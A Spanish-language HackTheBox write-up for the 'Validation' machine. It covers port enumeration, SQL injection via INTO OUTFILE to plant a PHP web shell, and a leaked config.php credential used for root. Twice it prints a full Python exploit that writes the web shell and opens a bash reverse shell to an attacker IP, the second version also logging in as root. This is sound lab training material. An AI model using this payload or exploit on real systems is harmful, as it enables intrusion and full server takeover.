

# Writeup de la máquina Validation realizado por Daniel Damota

<p align="center">
  
</p>

## Información General

- **Plataforma**: [Hackthebox](https://www.hackthebox.com/)
- **Nivel de Dificultad**: Fácil
- **Sistema Operativo Detectado**: Linux
- **Fecha de Ejecución**: 10/03/2025
- **Metodología**: Enumeración → Explotación → Escalada de Privilegios

## Machine Matrix

<p align="center">
  
</p>

## Técnicas utilizadas

Inyección SQL a Ejecución Remota de Comandos (parámetro INTO OUTFILE), debido a permisos mal asignados

Uso de proxy http para hacking web (Caido)

Filtración de Información (Credenciales) [Escalada de Privilegios]

Creación de exploits en Python para automatizar el acceso

---

## 1. Reconocimiento y Enumeración

Comprobamos si la máquina está activa mediante el envío de un paquete ICMP y por el TTL, que es cercano a 64, reconocemos que es una máquina Linux.

```
ping -c1 <IP>
```


Realizamos un primer escaneo con nmap para conocer los puertos abiertos de la máquina y volcamos el resultado en un archivo en formato "grepeable" para realizar un tratamiento mediante expresiones regulares (regex):

```
nmap -p- -sS --open --min-rate 5000 -vvv -Pn -n <IP> -oG allPorts
```


Usando una función en bash, extraemos la información mas relevante de la captura grepeable y copiamos los puertos abiertos a la clipboard mediante xclip. La función previamente defina es la siguiente:

```
# Extract nmap information:
function extractPorts(){
        ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{prin>
        ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{>
        echo -e "\n[*] Extracting information...\n" > extractP>
        echo -e "\t[*] IP Address: $ip_address"  >> extractPor>
        echo -e "\t[*] Open ports: $ports\n"  >> extractPorts.>
        echo $ports | tr -d '\n' | xclip -sel clip
        echo -e "[*] Ports copied to clipboard\n"  >> extractP>
        cat extractPorts.tmp; rm extractPorts.tmp      
}
```


Ahora realizamos un escaneo mas exhaustivo de los puertos:

```
nmap -sCV -p<PUERTOS> <IP> -oN targeted
```


Usamos whatweb para obtener más información:

```
whatweb 10.10.11.116
```


---

## 2. Explotación

Viendo que no hay nada nuevo, vamos a acceder al servicio web:

```
http://10.10.11.116
```


Probamos a meter contenido:


Ahora probamos HTML injection:


Vemos que no hay buena sanitización de datos. Podemos usar un proxy http para manejar también el campo de tipo lista, en mi caso usare Caido: https://caido.io/

Creamos un nuevo proyecto que se llame como la máquina:


Utilizando la extensión Foxyproxy, configuramos el proxy http en la ip 127.0.0.1:8080 y lo seleccionamos:


Activamos la interceptación en Caido:


Ahora mandamos una solicitud la cual vamos a interceptar:


En la propia interceptación podemos ver la respuesta:


Probamos a poner una comilla al final de la data:


Si le vamos dando a Forward a las solicitudes hasta recibir la respuesta, veremos que se acontece un error, por lo tanto nos encontramos ante un SQL Injection:


Volvemos a mandar una solicitud, pero ahora vamos a intentar enumerar el nombre de la base de datos:


Si nos fijamos en la respuesta veremos el nombre de la base de datos:


En vez de enumerar el contenido de la base de datos, vamos a probar con el parámetro INTO OUTFILE si puedo depositar contenido php, ya que eso nos llevaría directamente a la ejecución remota de comandos:


Vamos a probar si ha funcionado:


Viendo que hemos obtenido la ejecución de comandos, vamos a enviarnos una shell:

```
nc -lvnp 443
```


Vamos al directorio /home y vemos si podemos visualizar la flag:


<br>

### CREACIÓN DE UN EXPLOIT CON PYTHON3 PARA AUTOMATIZAR EL ACCESO [EXTRA]

```python
#!/usr/bin/python3

import signal, pdb, requests
from pwn import *

def def_handler(sig,frame):
    print("\n\n[!] Saliendo...\n]")
    sys.exit(1)

# ctrl + c
signal.signal(signal.SIGINT, def_handler)

if len (sys.argv) != 3:
    log.failure("Uso: python3 validation.py <IP_victima> <Filename>")
    sys.exit(1)

# Variables Globales
ip_victima = sys.argv[1]
filename = sys.argv[2]
lport = 443

main_url = "http://%s/" % ip_victima

def createFile():

    datapost = {
        'username' : 'test',
        'country':"""Brazil' union select "<?php system($_GET['cmd']) ?>" into outfile "/var/www/html/%s"-- -""" % filename

    }

    r = requests.post(main_url, data=datapost)

def getAccess():

    main_url = f"http://{ip_victima}/{filename}?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.5/443 0>%261'"

    r = requests.get(main_url)

if __name__ == '__main__':

    createFile()

    try:    
        threading.Thread(target=getAccess, args=()).start()
    except Exception as e:
        log.failure(str(e))

    shell = listen(lport, timeout=20).wait_for_connection() 
    shell.interactive()
```

Explicación de las librerias importadas:

- signal: Permite manejar señales, como SIGINT (Ctrl+C).

- pdb: No se usa en el programa, pero lo he usado a lo largo de su desarrollo para hacer breakpoints y comprobar poco a poco el funcionamiento.

- requests: Utilizado para hacer solicitudes HTTP.

- from pwn import *: Importa funciones de la librería Pwntools, que es comúnmente utilizada para realizar pruebas de penetración. Pwntools facilita la explotación de vulnerabilidades, incluyendo la creación de shells inversas y la interacción con sistemas comprometidos.

Como vemos en el exploit, declaramos una función def_handler, la cual en caso de hacer ctrl + c nos mostrará un mensaje de saliendo, luego validamos los argumentos introducidos al exploit y en caso de ser errónea la cantidad, mostramos un mensaje que explica como usar el exploit, luego de eso declaramos unas variables globales que usaremos a lo largo del programa, después declaramos las dos funciones que ejecuta el exploit, la primera de ellas manda una data por POST e intenta crear un archivo php aprovechando una Inyección SQL, la segunda función manda una solicitud por GET al archivo php creado con anterioridad para enviarnos una shell interactiva.

Durante el flujo del programa jugamos con hilos para que de manera concurrente se ejecute la función getAccess (se ejecutará en segundo plano), para después ponernos en escucha por el puerto 443 a la espera de la conexion de dicha función.

---

## 3. Escalada

Ahora que hemos conseguido el acceso, nuestro objetivo es convertirnos en el usuario root mediante una escalada de privilegios. 

Como primer paso vamos a listar los archivos a los que tenemos acceso:

```
ls -la
```


Visualizamos el contenido de config.php:



Intentamos usar la credencial para conectarnos como root:


Visualizamos la última flag:


### MODIFICACIÓN DEL EXPLOIT DE PYTHON

Viendo que la escalada es tan sencilla, podemos añadir un par de lineas más al final del código para acceder como root:

```python
#!/usr/bin/python3

import signal, pdb, requests
from pwn import *

def def_handler(sig,frame):
    print("\n\n[!] Saliendo...\n]")
    sys.exit(1)

# ctrl + c
signal.signal(signal.SIGINT, def_handler)

if len (sys.argv) != 3:
    log.failure("Uso: python3 validation.py <IP_victima> <Filename>")
    sys.exit(1)

# Variables Globales
ip_victima = sys.argv[1]
filename = sys.argv[2]
lport = 443

main_url = "http://%s/" % ip_victima

def createFile():

    datapost = {
        'username' : 'test',
        'country':"""Brazil' union select "<?php system($_GET['cmd']) ?>" into outfile "/var/www/html/%s"-- -""" % filename

    }

    r = requests.post(main_url, data=datapost)

def getAccess():

    main_url = f"http://{ip_victima}/{filename}?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.5/443 0>%261'"

    r = requests.get(main_url)

if __name__ == '__main__':

    createFile()

    try:    
        threading.Thread(target=getAccess, args=()).start()
    except Exception as e:
        log.failure(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()
    shell.sendline("su root")
    time.sleep(2)
    shell.sendline("uhc-9qual-global-pw") 
    shell.interactive()
```

Explicación del cambio:

Antes de enviarnos la shell, hacemos que el programa ejecute un su root y que introduzca la credencial, luego de ello si que nos envía la shell.


